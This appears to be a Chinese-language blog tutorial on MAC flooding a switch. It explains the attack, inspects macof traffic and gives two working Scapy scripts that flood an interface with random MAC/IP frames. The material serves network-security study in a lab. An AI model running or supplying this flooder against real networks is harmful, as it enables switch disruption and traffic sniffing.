 # Mac泛洪脚本

[toc]

## Mac泛洪

>交换机中存在着一张记录着MAC地址的表，为了完成数据的快速转发，该表具有自动学习机制；泛洪攻击即是攻击者利用这种学习机制不断发送不同的MAC地址给交换机，充满整个MAC表，此时交换机只能进行数据广播，攻击者凭此嗅探到信息。

## 数据包分析

我们知道了利用`Scapy`来构建包并发送,现在我们可以利用`dsniff`套件中的`macof`来进行抓包分析数据包,并构造自己的数据包

[网络嗅探DSNIFF套件的使用](http://www.youyouorz.top/index.php/2019/04/01/网络嗅探dsniff套件的使用/)

启动`macof`

```
# macof    //Ctrl+C 停止
```

![mark](http://cdn.youyouorz.top/blog/img/20190425/FGUNFIAuxrOp.png?imageslim)

Wireshark进行抓包

最好在没有互联网的网络中,避免过多干扰,虚拟机可用主机模式

![mark](http://cdn.youyouorz.top/blog/img/20190425/soabtxme0AYR.png?imageslim)



可以看到由两个协议构成,以太网协议和IP协议`Ether()/IP()`

```python
>>> ls(Ether)
dst        : DestMACField                        = (None)
src        : SourceMACField                      = (None)
type       : XShortEnumField                     = (36864)
>>> ls(IP)
version    : BitField (4 bits)                   = (4)
ihl        : BitField (4 bits)                   = (None)
tos        : XByteField                          = (0)
len        : ShortField                          = (None)
id         : ShortField                          = (1)
flags      : FlagsField (3 bits)                 = (<Flag 0 ()>)
frag       : BitField (13 bits)                  = (0)
ttl        : ByteField                           = (64)
proto      : ByteEnumField                       = (0)
chksum     : XShortField                         = (None)
src        : SourceIPField                       = (None)
dst        : DestIPField                         = (None)
options    : PacketListField                     = ([])
```

他们的**源地址**和**目的地址**都是随机的,在Scapy中的`volatile.py`中有一些随机的方法

`RandMAC()`和`RandIP()`

```python
>>> RandMAC()	#一个类
<RandMAC>
>>> print(RandMAC())	#随机生成MAC
60:0a:21:09:15:2b
>>> print(RandMAC())
a3:c0:13:a7:2d:57
>>> RandIP()
<RandIP>
>>> print(RandIP())
157.117.117.149
>>> print(RandIP())
240.8.140.39
>>> print(RandIP('192.168.1.*')) #指定一定范围
192.168.1.86
>>> print(RandIP('192.168.1.*'))
192.168.1.71
>>> print(RandMAC('*:*:*:*:*:b1'))
b1:2c:42:55:2c:b1
>>> print(RandMAC('*:*:*:*:*:b1'))
5b:81:bf:32:4c:b1

```

### Python脚本

初步脚本

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

from scapy.all import *
import time

iface = 'eth0'    #指定网卡
try:
    while 1:
        randmac1 = str(RandMAC())
        randmac2 = str(RandMAC())
        randip1 = str(RandIP())
        randip2 = str(RandIP())
        packet = Ether(src=randmac1,dst=randmac2)/IP(src=randip1,dst=randip2)
        sendp(packet,iface=iface,loop=0)
        
except KeyboardInterrupt: #捕获Ctrl+c
    print('/n[+]Stop')
```

但这个发包速度太慢

提点速,再整体优化下

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

from scapy.all import RandMAC,RandIP,Ether,IP,sendp #针对性的导入函数,避免加载慢
import sys

iface = 'eth0'
if len(sys.argv) >= 2:
    iface = sys.argv[1]

packet = Ether(src=RandMAC(),dst=RandMAC())/IP(src=RandIP(),dst=RandIP())
sendp(packet,iface=iface,loop=1) #loop 自带的循环发包

```

效果图

![mark](http://cdn.youyouorz.top/blog/img/20190425/VzCpis43d1KG.png?imageslim)